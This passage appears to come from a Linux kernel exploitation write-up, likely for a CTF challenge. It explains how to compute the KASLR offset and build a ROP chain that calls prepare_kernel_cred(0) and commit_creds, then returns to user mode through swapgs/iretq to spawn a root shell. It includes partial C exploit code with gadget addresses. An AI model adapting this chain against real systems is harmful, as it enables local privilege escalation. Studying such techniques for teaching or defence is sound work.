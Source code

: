 ​	As mentioned in 2, we have gotten the real address of the function **commit_creds()**. According to the real address of the function and its offset relative to the kernel, we could calculate the real kernel base address. `real kernel base address - raw kernel base address = offset of KASLR`. The `offset` needs to be added for subsequent use of other addresses. The constructed ROP chain is as follows.

```c
  76   │     vmlinux_base = commit_creds_addr - 0x9c8e0;
  77   │     size_t offset = vmlinux_base - raw_vmlinux_base;
  78   │     size_t pop_rdi = 0xffffffff81000b2f + offset;   //pop rdi; ret;
  79   │     size_t pop_rdx = 0xffffffff810a0f49 + offset;   //pop rdx; ret;
  80   │     size_t mov_rdi = 0xffffffff8106a6d2 + offset;   //mov rdi, rax; jmp rdx;
  81   │     size_t swapgs = 0xffffffff81a012da + offset;    //swapgs; popfq; ret;
  82   │     size_t iretq = 0xffffffff81050ac2 + offset;     //iretq; ret;
  83   │     size_t rop[0x100];
……
 101   │     rop[i++] = pop_rdi;
 102   │     rop[i++] = 0;
 103   │     rop[i++] = prepare_kernel_cred_addr;
 104   │     rop[i++] = pop_rdx;
 105   │     rop[i++] = commit_creds_addr;
 106   │     rop[i++] = mov_rdi;
 107   │     rop[i++] = swapgs;
 108   │     rop[i++] = 0;
 109   │     rop[i++] = iretq;
 110   │     rop[i++] = (size_t)GetShell;
 111   │     rop[i++] = user_cs;
 112   │     rop[i++] = user_rflags;
 113   │     rop[i++] = user_sp;
 114   │     rop[i++] = user_ss;
```

​	On lines 101~103, we pass 0 to the rdi register as the argument of **prepare_kernel_cred()**, and its return value will be stored in the rax register. 

​	After that, the address of **commit_creds()** is stored in the rdx register, and then pass the return value of **prepare_kernel_cred()** in the rax register to the rdi register as the argument of **commit_creds()** before jumping to **commit_creds()**.

​	Finally, on lines 107~114, we return to user mode through `swapgs; iretq`. The information needed for `iretq` has been saved in advance in 1. When we execute `iretq`, the information on the stack should be as follows.

``` text
                                +-----------+
                                |    RIP    |
                                +-----------+
                                |    CS     |
                                +-----------+
                                |   rflags  |
                                +-----------+
                                |    RSP    |
                                +-----------+
                                |    SS     |
                                +-----------+                           
```
